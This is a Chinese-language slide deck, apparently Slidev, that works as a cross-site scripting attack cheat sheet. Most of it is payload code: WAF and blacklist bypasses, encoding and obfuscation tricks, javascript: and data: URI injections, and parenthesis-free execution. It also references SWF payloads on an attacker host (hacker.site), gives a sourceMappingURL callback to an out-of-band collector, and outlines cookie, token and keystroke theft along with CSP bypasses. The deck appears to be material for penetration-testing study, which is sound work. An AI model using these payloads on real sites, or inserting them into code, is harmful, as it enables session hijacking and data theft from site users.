#### 标签 & 事件 fuzzing

- 前往 [PortSwigger XSS Cheat Sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
- 点击 _Copy tags to clipboard_。
- 使用 Burp Intruder 发送所有这些标签，并检查是否有任何标签没有被 WAF 识别为恶意。
- 一旦发现可以使用哪些标签，就可以使用有效的标签暴力破解所有事件（在同一网页上点击 _Copy events to clipboard_ 并按照之前的步骤操作）。

::right::

#### 自定义标签

- 如果没有找到任何有效的 HTML 标签，可以尝试创建自定义标签
- 使用 `onfocus` 属性执行 JS 代码
- 在 XSS 请求中，你需要用 `#` 结束 URL，以使页面聚焦于该对象并执行代码

```html
<xss id="x" onfocus="alert(document.cookie)" tabindex="1">#x</xss>
```

---

#### 黑名单绕过

如果存在某种黑名单，可以尝试使用一些小技巧来绕过它：

```html {*}{lines: true, maxHeight: '80%'}
// 随机大小写
<script> --> <ScrIpT>
 <script>
<scr<script>ipt>
<SCRscriptIPT>alert(1)</SCRscriptIPT>

// 你可以用以下字符替换空格来分隔属性：
/
/*%00/
/%00*/
%2F
%0D
%0C
%0A
%09

// 意外的父标签
<svg><x><script>alert('1'&#41</x>

// 意外的奇怪属性
<script x>
<script a="1234">
<script ~~~>
<script/random>alert(1)</script>
<script      ///注意换行符
>alert(1)</script>
<scr\x00ipt>alert(1)</scr\x00ipt>

// 不闭合标签，以 " <" 或 " //" 结尾
<iframe SRC="javascript:alert('XSS');" <
<iframe SRC="javascript:alert('XSS');" //

// 额外的开始标签
<<script>alert("XSS");//<</script>

// 只是奇怪且出乎意料，发挥你的想象力
</script/script><script>
<input type=image src onerror="prompt(1)">

// 使用 `` 代替括号
onerror=alert`1`

// 使用多个
<<TexTArEa/*%00//%00*/a="not"/*%00///AutOFocUs////onFoCUS=alert`1` //
```

---

#### 长度绕过 (小型 XSS)

> 注意：更多适用于不同环境的微型 XSS payload 可以[在这里](https://github.com/terjanq/Tiny-XSS-Payloads) 和 [这里](https://tinyxss.terjanq.me) 找到。

```html
<!-- 摘自 Jorge Lajara 的博客 -->
<svg/onload=alert``> <script src=//aa.es> <script src=//℡㏛.pw>
```

最后一个使用了 2 个 Unicode 字符，它们扩展为 5 个字符：telsr。

可以在[这里](https://www.unicode.org/charts/normalization/)找到更多这样的字符。

要检查哪些字符被分解，请查看[这里](https://www.compart.com/en/unicode/U+2121)。

---
layout: two-cols
---

#### 注入到 HTML 标签中

- 在标签内/从属性值转义

  - 如果位于 HTML 标签内：尝试从标签**转义**，并使用之前中提到的一些技术来执行 JS 代码。
  - 如果**无法从标签转义**，可以在标签内创建新的属性，尝试执行 JS 代码，例如使用如下 payload（注意，在本例中，双引号用于从属性转义，如果你的输入直接反射到标签内，则不需要双引号）：

    ```text
    " autofocus onfocus=alert(document.domain) x="
    " onfocus=alert(1) id=x tabindex=0 style=display:block>#x #Access http://site.com/?#x t
    ```

::right::

- 样式事件

  ```html
  <p style="animation: x;" onanimationstart="alert()">XSS</p>
  <p style="animation: x;" onanimationend="alert()">XSS</p>

  <!-- payload，注入一个不可见的覆盖层，如果点击页面上的任何位置，都将触发 -->
  <div
    style="position:fixed;top:0;right:0;bottom:0;left:0;background: rgba(0, 0, 0, 0.5);z-index: 5000;"
    onclick="alert(1)"
  ></div>
  <!-- 将鼠标移动到页面上的任何位置（类似零点击）： -->
  <div
    style="position:fixed;top:0;right:0;bottom:0;left:0;background: rgba(0, 0, 0, 0.0);z-index: 5000;"
    onmouseover="alert(1)"
  ></div>
  ```

---
layout: two-cols
---

#### 在属性内

- 即使你无法从属性转义（`"` 被编码或删除），取决于你的值被反射到哪个属性，以及你控制所有值还是只控制一部分值，你将能够利用它。例如，如果你控制了一个像 `onclick=` 这样的事件，你将能够在点击它时执行任意代码。
- 另一个有趣的例子是属性 `href`，你可以在其中使用 `javascript:` 协议来执行任意代码：`href="javascript:alert(1)"`
- 使用 HTML 编码/URL 编码绕过事件内部的限制：

  - HTML 标签属性值内的 HTML 编码字符会在运行时解码。因此，如下内容将是有效的：

    ```html
    <a
      id="author"
      href="http://none"
      onclick="var tracker='http://foo?``'-alert(1)-'``';"
      >Go Back
    </a>
    ```

::right::

- 任何类型的 HTML 实体化编码都是有效的：

  ```html
  // HTML 实体
  &apos;-alert(1)-&apos;
  // HTML 十六进制，不带零
  &#x27-alert(1)-&#x27
  // HTML 十六进制，带零
  &#x00027-alert(1)-&#x00027
  // HTML 十进制，不带零
  &#39-alert(1)-&#39
  // HTML 十进制，带零
  &#00039-alert(1)-&#00039

  <a href="javascript:var a='&apos;-alert(1)-&apos;'">a</a>
  <a href="&#106;avascript:alert(2)">a</a>
  <a href="jav&#x61script:alert(3)">a</a>
  ```

- URL 编码也有效：

  ```html
  <a href="https://example.com/lol%22onmouseover=%22prompt(1);%20img.png"
    >Click</a
  >
  ```

---

#### 使用 Unicode 编码绕过事件内部的限制

```html
// 由于某种原因，你可以使用 Unicode 编码 "alert"，但不能编码 "(1)"


```

---

#### 属性内的特定协议

你可以在某些地方使用协议 `javascript:` 或 `data:` 来执行任意 JS 代码。有些需要用户交互，有些则不需要。

```html {*}{lines: true, maxHeight: '80%'}
javascript:alert(1) JavaSCript:alert(1) javascript:%61%6c%65%72%74%28%31%29
//URL 编码 javascript&colon;alert(1) javascript&#x003A;alert(1)
javascript&#58;alert(1) javascript:alert(1) java //注意换行符 script:alert(1)
data:text/html,
<script>
  alert(1);
</script>
DaTa:text/html,
<script>
  alert(1);
</script>
data:text/html;charset=iso-8859-7,%3c%73%63%72%69%70%74%3e%61%6c%65%72%74%28%31%29%3c%2f%73%63%72%69%70%74%3e
data:text/html;charset=UTF-8,
<script>
  alert(1);
</script>
data:text/html;base64,PHNjcmlwdD5hbGVydCgiSGVsbG8iKTs8L3NjcmlwdD4=
data:text/html;charset=thing;base64,PHNjcmlwdD5hbGVydCgndGVzdDMnKTwvc2NyaXB0Pg
data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dH
A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcv
MjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hs
aW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAw
IiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI+YWxlcnQoIlh
TUyIpOzwvc2NyaXB0Pjwvc3ZnPg==
```

---

#### 可以注入这些协议的地方

通常，`javascript:` 协议可以用于任何接受 `href` 属性的标签，以及大多数接受 `src` 属性的标签（但 `
<a href="data:text/html;base64,PHNjcmlwdD5hbGVydCgiSGVsbG8iKTs8L3NjcmlwdD4=">
<form action="javascript:alert(1)"><button>send</button></form>
<form id=x></form><button form="x" formaction="javascript:alert(1)">send</button>
<object data=javascript:alert(3)>
<iframe src=javascript:alert(2)>
<embed src=javascript:alert(1)>

<object data="data:text/html,<script>alert(5)</script>">
<embed src="data:text/html;base64,PHNjcmlwdD5hbGVydCgiWFNTIik7PC9zY3JpcHQ+" type="image/svg+xml" AllowScriptAccess="always"></embed>
<embed src="data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dH A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcv MjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hs aW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAw IiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI+YWxlcnQoIlh TUyIpOzwvc2NyaXB0Pjwvc3ZnPg=="></embed>
<iframe src="data:text/html,<script>alert(5)</script>"></iframe>

// 特殊情况
<object data="//hacker.site/xss.swf"> .//https://github.com/evilcos/xss.swf
<embed code="//hacker.site/xss.swf" allowscriptaccess=always> //https://github.com/evilcos/xss.swf
<iframe srcdoc="<svg onload=alert(4);>">
```

---

#### 其他的混淆技巧

- 在这种情况下，前面章节中的 HTML 编码和 Unicode 编码技巧也有效，因为你在属性内部。

  ```html
  <a href="javascript:var a=''-alert(1)-''"></a>
  ```

- 此外，还有一个技巧是即使你在 `javascript:...` 中的输入被 URL 编码，它也会在执行前被 URL 解码。因此，如果你需要使用单引号从字符串中转义，并且你看到它正在被 URL 编码，请记住没关系，在执行时，它会被解释为单引号。

  ```html
  &apos;-alert(1)-&apos; %27-alert(1)-%27
  <iframe src="javascript:%61%6c%65%72%74%28%31%29"></iframe>
  ```

请注意，如果你尝试以任何顺序同时使用 `URLencode + HTMLencode` 来编码 payload，它将不会起作用，但你可以在 payload 中混合使用它们（即部分 URL 编码，部分 HTML 编码）。

---

#### 将十六进制和八进制编码与 `javascript:` 结合使用

你可以在 `iframe` 的 `src` 属性（至少是这样）中使用十六进制和八进制编码来声明 HTML 标签以执行 JS：

```html
// 编码: <svg onload=alert(1)>
// 这有效
<iframe src=javascript:'\x3c\x73\x76\x67\x20\x6f\x6e\x6c\x6f\x61\x64\x3d\x61\x6c\x65\x72\x74\x28\x31\x29\x3e' />
<iframe src=javascript:'\74\163\166\147\40\157\156\154\157\141\144\75\141\154\145\162\164\50\61\51\76' />

// 编码: alert(1)
// 这不起作用
<svg onload=javascript:'\x61\x6c\x65\x72\x74\x28\x31\x29' />
<svg onload=javascript:'\141\154\145\162\164\50\61\51' />
```

---

#### On 事件处理程序绕过

首先，查看此页面（[https://portswigger.net/web-security/cross-site-scripting/cheat-sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)）以获取有用的 **"on" 事件处理程序**。

如果存在阻止你创建这些事件处理程序的黑名单，你可以尝试以下绕过方法：

```html
<svg onload%09="alert(1)">
  <!-- 不支持 Safari -->
  <svg %09onload="alert(1)">
    <svg %09onload%20="alert(1)">
      <svg onload%09%20%28%2c%3b="alert(1)">
        <!-- onevent 和 "=" 之间允许的字符 IExplorer: %09 %0B %0C %020 %3B Chrome:
        %09 %20 %28 %2C %3B Safari: %2C %3B Firefox: %09 %20 %28 %2C %3B Opera:
        %09 %20 %2C %3B Android: %09 %20 %28 %2C %3B -->
      </svg>
    </svg>
  </svg>
</svg>
```

---
layout: two-cols
---

#### "不可利用的标签" 中的 XSS (hidden input, link, canonical, meta)

从[这里](https://portswigger.net/research/exploiting-xss-in-hidden-inputs-and-meta-tags)开始，现在可以利用隐藏输入来实施攻击：

```html
<button popvertarget="x">Click me</button>
<input type="hidden" value="y" popover id="x" onbeforetoggle="alert(1)" />
```

以及在 meta 标签中：

```html
<!-- 在 meta 属性内注入 -->
<meta
  name="apple-mobile-web-app-title"
  content=""
  Twitter
  popover
  id="newsletter"
  onbeforetoggle="alert(2)"
/>
<!-- 现有的目标 -->
<button popovertarget="newsletter">Subscribe to newsletter</button>
<div popover id="newsletter">Newsletter popup</div>
```

::right::

- [这里](https://portswigger.net/research/xss-in-hidden-input-fields)：可以在隐藏属性中执行 XSS payload，前提是你可以说服受害者按下组合键。在 Firefox Windows/Linux 上，组合键是 ALT+SHIFT+X，在 OS X 上，它是 CTRL+ALT+X。你可以使用访问键属性中的其他键来指定不同的组合键。

  ```html
  <input type="hidden" accesskey="X" onclick="alert(1)" />
  ```

  - XSS payload 将如下所示：`" accesskey="x" onclick="alert(1)" x="`

---
layout: two-cols
---

#### CSS-Gadgets

如果你在一个网站的非常小的部分中发现了一个 XSS，该 XSS 需要某种交互（可能是在页脚中带有一个 `onmouseover` 元素的小链接），你可以尝试修改该元素占据的空间，以最大限度地提高触发链接的可能性。

- 例如，你可以在元素中添加一些样式，例如：

  ```html
  <style>
    .test {
      position: fixed;
      top: 0;
      left: 0;
      width: 100%;
      height: 100%;
      background-color: red;
      opacity: 0.5;
    }
  </style>
  ```

::right::

- 但是，如果 WAF 正在过滤 style 属性，你可以使用 CSS Styling Gadgets，因此如果你发现例如：

  ```css
  .test {display:block; color: blue; width: 100%\}
  ```

  你可以使用：

  ```css
  .test {display:block; color: blue; width: 100%\}
  ```

  和

  ```css
  #someid {
    top: 0;
    font-family: Tahoma;
  }
  ```

  现在你可以修改我们的链接并将其带到表单中：

  ```html
  <a href="" id="someid" class="test" onclick="alert()" a=""></a>
  ```

---
layout: two-cols
---

#### 注入到 JavaScript 代码中

在某些情况下，你的输入将被反射到 `.js` 文件的 JS 代码中，或者在 `<script>...</script>` 标签之间，或者在可以执行 JS 代码的 HTML 事件之间，或者在接受 `javascript:` 协议的属性之间。

- 转义 \<script> 标签

  - 如果你的代码插入到 `<script> [...] var input = '反射的数据' [...] </script>` 中，你可以轻松地转义，关闭 `<script>` 标签：

  ```html
  </script>
  ```

  - 注意，在本例中，甚至没有关闭单引号。这是因为 HTML 解析由浏览器首先执行，其中涉及识别页面元素，包括脚本块。理解和执行嵌入脚本的 JavaScript 解析仅在之后进行。

::right::

- 在 JS 代码内部

  - 如果 `<>` 正在被过滤掉，你仍然可以转义你的输入所在的字符串，并执行任意 JS。重要的是修复 JS 语法，因为如果存在任何错误，JS 代码将不会被执行：

  ```javascript
  '-alert(document.domain)-'
  ';alert(document.domain)//
  \';alert(document.domain)//
  ```

---
layout: two-cols
---

#### 模板字面量 \`\`

为了构造字符串，除了单引号和双引号之外，JS 还接受反引号 **` \`\` \`** 。这被称为模板字面量，因为它们允许使用 `${ ... }` 语法嵌入 JS 表达式。

因此，如果你发现你的输入正在反射到使用反引号的 JS 字符串中，你可以利用语法 `${ ... }` 来执行任意 JS 代码：

可以使用以下方法来利用这一点：

```javascript
`${alert(1)}``${`${`${`${alert(1)}`}`}`}`;
```

```javascript
// 这是有效的 JS 代码，因为每次函数返回自身时，都会使用 `` 重新调用它
function loop() {
  return loop;
}
loop``;
```

::right::

#### 编码代码执行

```html
<script>\u0061lert(1)</script>
<svg><script>alert&lpar;'1'&rpar;
<svg><script>alert(1)</script></svg>  <!-- svg 标签是必要的
<iframe srcdoc="<SCRIPT>alert(1)</iframe>">
```

---
layout: two-cols
---

#### JavaScript 绕过黑名单技术

- 字符串：

  ```javascript
  "thisisastring"
  'thisisastrig'
  `thisisastring`
  /thisisastring/ == "/thisisastring/"
  /thisisastring/.source == "thisisastring"
  "\h\e\l\l\o"
  String.fromCharCode(116,104,105,115,105,115,97,115,116,114,105,110,103)
  "\x74\x68\x69\x73\x69\x73\x61\x73\x74\x72\x69\x6e\x67"
  "\164\150\151\163\151\163\141\163\164\162\151\156\147"
  "\u0074\u0068\u0069\u0073\u0069\u0073\u0061\u0073\u0074\u0072\u0069\u006e\u0067"
  "\u{74}\u{68}\u{69}\u{73}\u{73}\u{61}\u{73}\u{74}\u{72}\u{69}\u{6e}\u{67}"
  "\a\l\ert\(1\)"
  atob("dGhpc2lzYXN0cmluZw==")
  eval(8680439..toString(30))(983801..toString(36))
  ```

::right::

- 特殊转义：

  ```javascript
  "\b"; //退格
  "\f"; //换页
  "\n"; //换行
  "\r"; //回车
  "\t"; //制表符
  "\b"; //退格
  "\f"; //换页
  "\n"; //换行
  "\r"; //回车
  "\t"; //制表符
  // 任何其他转义的字符都只是它本身
  ```

- JS 代码中的空格替换 Tab

- JavaScript 注释

  ```javascript
  // 这是单行注释
  /* 这是多行注释*/
  <!--这是单行注释
  #!这是单行注释，但 "#!" 必须位于第一行的开头
  -->这是单行注释，但 "-->" 必须位于第一行的开头
  ```

---
layout: two-cols
---

- JavaScript 换行符

  ```javascript
  // JavaScript 将这些字符解释为换行符：
  String.fromCharCode(10);
  alert("//\nalert(1)"); //0x0a
  String.fromCharCode(13);
  alert("//\ralert(1)"); //0x0d
  String.fromCharCode(8232);
  alert("//\u2028alert(1)"); //0xe2 0x80 0xa8
  String.fromCharCode(8233);
  alert("//\u2029alert(1)"); //0xe2 0x80 0xa9
  ```

- JavaScript 空格

  ```javascript
  log = [];
  function funct() {}
  for (let i = 0; i <= 0x10ffff; i++) {
    try {
      eval(`funct${String.fromCodePoint(i)}()`);
      log.push(i);
    } catch (e) {}
  }
  console.log(log);
  //9,10,11,12,13,32,160,5760,8192,8193,8194,8195,8196,8197,8198,8199,8200,8201,8202,8232,8233,8239,8287,12288,65279
  ```

::right::

- 可以使用原始字符，也可以在 SVG 或 HTML 属性中对它们进行 HTML 编码：

  ```html
  
  ```

- 注释中的 Javascript

  ```javascript
  // 如果你只能在 JS 注释中注入，你仍然可以泄露一些信息
  // 如果用户打开 DevTools，将发送到指示的 sourceMappingURL 的请求

  //# sourceMappingURL=https://evdr12qyinbtbd29yju31993gumlaby0.oastify.com
  ```

---

- 没有括号的 JavaScript

```javascript {*}{lines:true, maxHeight: '80%'}
// 通过设置 location
window.location='javascript:alert\x281\x29'
x=new DOMMatrix;matrix=alert;x.a=1337;location='javascript'+':'+x
  // 或任何 DOMXSS sink，例如 location=name

// 反引号
  // 反引号将字符串作为长度为 1 的数组传递
alert`1`

// 反引号 + 标记模板 + call/apply
eval`alert\x281\x29` // 这将不起作用，因为它只会返回传递的数组
setTimeout`alert\x281\x29`
eval.call`${'alert\x281\x29'}`
eval.apply`${[`alert\x281\x29`]}`
[].sort.call`${alert}1337`
[].map.call`${eval}\\u{61}lert\x281337\x29`

  // 要传递多个参数，可以使用
function btt(){
    console.log(arguments);
}
btt`${'arg1'}${'arg2'}${'arg3'}`

  // 可以构造一个函数并调用它
Function`x${'alert(1337)'}x`

  // .replace 可以使用正则表达式，如果找到某些内容，则调用函数
"a,".replace`a${alert}` // 初始 ["a"] 作为 "a," 传递给 str，这就是为什么初始字符串是 "a,"
"a".replace.call`1${/./}${alert}`
  // 这发生在前面的例子中
  // 将 call 的 "this" 值更改为 "1,"
  // 使用正则表达式 /./ 匹配任何内容
  // 使用 "1" 调用 alert
"a".replace.call`1337${/..../}${alert}` // 使用 1337 调用 alert

  // 使用 Reflect.apply 使用任何参数调用任何函数
Reflect.apply.call`${alert}${window}${[1337]}` // 传递要调用的函数 (“alert”)，然后将 “this” 值传递给该函数 (“window”)，这可以避免非法调用错误，最后传递一个参数数组给函数。
Reflect.apply.call`${navigation.navigate}${navigation}${[name]}`
  // 使用 Reflect.set 将任何值设置为变量
Reflect.set.call`${location}${'href'}${'javascript:alert\x281337\x29'}` // 它需要在第一个参数 (“location”) 中使用一个有效的对象，在第二个参数中使用一个属性，在第三个参数中使用一个要分配的值。

// valueOf, toString
  // 当对象用作原始值时，会调用这些操作
  // 因为该对象作为 "this" 传递，而 alert() 需要 "window" 作为 "this" 的值，因此使用 "window" 方法
valueOf=alert;window+''
toString=alert;window+''
```

---
layout: two-cols
---

- 错误处理程序

  ```text
  window.onerror=eval;throw"=alert\x281\x29";
  onerror=eval;throw"=alert\x281\x29";
  
  {onerror=eval}throw"=alert(1)" //没有 ";"
  onerror=alert //使用换行符，没有 ";"
  throw 1337
    // 错误处理程序 + 特殊 Unicode 分隔符
  eval("onerror=\u2028alert\u2029throw 1337");
    // 错误处理程序 + 逗号分隔符
    // 逗号分隔符遍历列表，只返回最后一个元素
  var a = (1,2,3,4,5,6) // a = 6
  throw onerror=alert,1337 // 这将引发 1337，在将 onerror 事件设置为 alert 之后
  throw onerror=alert,1,1,1,1,1,1337
    // catch 子句中的可选异常变量。
  try{throw onerror=alert}catch{throw 1}

  // Has instance symbol
  'alert\x281\x29'instanceof{[Symbol['hasInstance']]:eval}
  'alert\x281\x29'instanceof{[Symbol.hasInstance]:eval}
    // “has instance” 符号允许你自定义 instanceof 运算符的行为，如果你设置了此符号，它会将左操作数传递给符号定义的函数。
  ```

::right::

- 任意函数 (alert) 调用

  ````javascript
  //Eval 相似的函数
  eval('ale'+'rt(1)')
  setTimeout('ale'+'rt(2)');
  setInterval('ale'+'rt(10)');
  Function('ale'+'rt(10)')``;
  [].constructor.constructor("alert(document.domain)")``
  []["constructor"]["constructor"]`$${alert()}```
  import('data:text/javascript,alert(1)')
  ````

- 通用函数执行

  ```javascript
  // 可以用作括号
  alert`document.cookie`;
  alert(document["cookie"]);
  with (document) alert(cookie)(alert)(1)(alert(1)) in ".";
  (a = alert), a(1)[1].find(alert);
  window["alert"](0);
  parent["alert"](1);
  self["alert"](2);
  top["alert"](3);
  this["alert"](4);
  ```

---
layout: two-cols
---

### 内容安全策略（CSP）与绕过

CSP（Content Security Policy）是一种安全机制，通过白名单的方式限制浏览器可以加载和执行的资源，从而降低XSS攻击的风险。CSP策略通常通过HTTP响应头（`Content-Security-Policy`）或HTML `<meta>` 标签设置。

**常见的CSP指令：**

- `script-src`: 控制JavaScript的来源。
- `style-src`: 控制CSS的来源。
- `img-src`: 控制图片的来源。
- `connect-src`: 控制`fetch`、`XMLHttpRequest`、WebSocket等连接的来源。
- `frame-src`: 控制`<iframe>`的来源.
- `base-uri`: 控制`<base>`标签的来源。
- `form-action`: 控制表单提交的目的地。

::right::

**CSP绕过技巧：**

- **寻找CSP策略的漏洞**：
  - 过于宽松的`script-src`：如允许`'unsafe-inline'`、`'unsafe-eval'`、通配符`*`、CDN域名等。
  - 缺少`object-src`指令: 导致可以加载任意插件。
  - 缺少`base-uri`指令: 可以注入 base 标签指向恶意服务器。
- **利用可信的脚本**：
  - 如果CSP允许加载某些可信域的脚本（如Google Analytics、jQuery CDN），可以尝试寻找这些脚本中的漏洞（如DOM XSS），或者利用这些脚本的功能（如`$.getScript`）加载恶意代码。
- **利用JSONP**：
  - JSONP（JSON with Padding）是一种跨域数据获取方式，通常不受CSP限制。如果目标网站存在JSONP接口，并且没有对回调函数名进行严格校验，可以利用JSONP执行任意JavaScript代码。
- **利用`<meta>`标签修改CSP策略**。
- **利用浏览器BUG**.

---

## 3. 信息窃取

成功执行JS代码后，可以进行各种恶意操作，其中最常见的是信息窃取：

- **窃取Cookie**：
  - `document.cookie` 可以获取当前域的Cookie。
  - 需要注意的是，`HttpOnly`标志的Cookie无法通过JavaScript访问。
- 可以利用子域XSS -> 主域Cookie (Cookie Tossing)
- **窃取CSRF Token**：
  - 许多Web应用程序使用CSRF Token来防止跨站请求伪造攻击。攻击者可以通过XSS获取CSRF Token，然后伪造合法请求。
- **读取页面内容**：
  - `document.body.innerHTML` 可以获取页面的HTML内容。
  - 可以利用正则表达式提取特定信息。
- **键盘记录**：
  - 监听`keydown`、`keypress`、`keyup`等事件，记录用户的键盘输入。
- **屏幕截图**
  - 通过 `<canvas>` 元素进行截图，再上传到服务器。
- **XSLeaks(跨站漏洞)**：
  - 利用浏览器特性、时序攻击等手段，获取其他域的信息。
  - 例如，通过`<link rel="stylesheet">`加载其他域的CSS，然后根据加载时间判断某些条件是否成立。
- **发送请求/伪造请求**：
  - 可以通过XSS伪造用户的身份和请求内容，去执行非法操作。
- **内网IP/端口扫描**：
  - 可以通过 XSS 发起对于内网的探测。
- **升级为SSRF**
  - 特别是在存在缓存，且XSS在其中时，可以通过Edge Side Include Injection将XSS升级为SSRF。

---

### 特殊场景下的XSS

- **XSS in Markdown**: 利用Markdown解析器的漏洞或特性。
- **XSS in SVG**: 利用SVG文件的`<script>`标签或`xlink:href`属性。
- **XSS in XML**: 在`Content-Type: text/xml`的响应中注入。
- **XSS in PDF**: 利用PDF生成器的漏洞（通常是服务端的）。
- **Self-XSS的升级利用**: 例如会话镜像，管理员访问用户页面时触发。
- **Blind XSS**: Payload在后台触发，如管理员面板。

---

### JavaScript技巧

- **JS变量提升（Hoisting）**:
- **无括号函数调用**: `alert`1``、`onerror=alert;throw 1`
- **Unicode/HTML/URL编码**: 在不同上下文中使用。
- **字符串构造技巧**: `String.fromCharCode(...)`、`atob(...)`

### 其他资源

- XSS Payload备忘录、Fuzzing列表等。
